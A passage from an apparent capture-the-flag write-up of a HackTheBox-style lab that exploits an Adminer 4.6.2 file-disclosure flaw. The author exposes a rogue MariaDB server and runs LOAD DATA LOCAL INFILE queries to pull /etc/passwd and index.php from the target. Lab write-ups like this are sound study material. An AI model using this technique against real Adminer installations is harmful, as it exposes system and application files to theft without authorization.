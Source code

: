 Searching for an exploit that would affect adminer v4.6.2 leads to [this page](https://www.acunetix.com/vulnerabilities/web/adminer-4-6-2-file-disclosure-vulnerability/). It is explained that adminer up to v4.6.2 included allows connection to an attacker server where it will be possible to dump files.

All you need to do is allow remote connections (`bind-address` parameter):

~~~
kali@kali:~$ grep /etc/mysql/mariadb.conf.d/bind-address 50-server.cnf 
#bind-address            = 127.0.0.1
bind-address		= 0.0.0.0
~~~

Create a database, a user, and a table with 1 field:

~~~
MariaDB [mysql]> create database admirer;
MariaDB [mysql]> grant all privileges on admirer.* to admirer@admirer.htb identified by 'admirer';
MariaDB [mysql]> use admirer;
MariaDB [admirer]> create table test(test text);
~~~

With the help of [this post](https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f), I tried to send this request:

~~~
LOAD DATA LOCAL INFILE '/etc/passwd' 
INTO TABLE test
FIELDS TERMINATED BY "\n"
~~~

But it failed with the following error message: `Error in query (2000): open_basedir restriction in effect. Unable to open file`.

Then, I tried to read the `index.php` file at the root:

~~~
LOAD DATA LOCAL INFILE '../index.php' 
INTO TABLE test
FIELDS TERMINATED BY "\n"
~~~
